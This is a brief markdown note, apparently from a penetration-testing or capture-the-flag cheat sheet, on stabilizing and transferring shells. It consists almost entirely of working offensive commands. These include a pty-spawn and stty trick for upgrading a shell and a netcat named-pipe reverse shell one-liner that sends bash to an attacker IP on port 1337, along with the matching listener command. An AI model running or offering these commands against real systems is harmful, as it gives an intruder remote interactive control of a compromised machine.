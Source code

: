 For the [Shell Stabilization](Shell%20Stabilization.md) first we need to execute `export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter .

## Transfer shell from meterpreter 

- On the unstable shell `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.184 1337 >/tmp/f`
- On attacking system `nc -lvnp 1337`

then Stabilize.